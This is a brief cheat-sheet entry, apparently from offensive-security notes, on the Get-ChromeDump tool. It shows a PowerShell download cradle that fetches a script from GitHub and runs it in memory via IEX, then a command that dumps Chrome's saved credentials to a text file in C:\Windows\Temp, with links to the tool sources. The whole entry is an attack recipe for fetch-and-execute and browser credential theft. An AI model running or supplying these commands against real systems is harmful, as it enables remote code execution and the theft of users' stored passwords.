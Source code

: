 # Get-ChromeDump

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/leechristensen/Random/master/PowerShellScripts/Get-ChromeDump.ps1')
```

Dump the saved credentails.

```
PS C:\> Get-ChromeDump -OutFile "C:\Windows\Temp\chrome_credentials.txt"
```

---
## References

- [leechristensen: Get-ChromeDump](https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-ChromeDump.ps1)

- [roflsandwich: Chrome Password Dumper](https://github.com/roflsandwich/Chrome-Password-Dumper)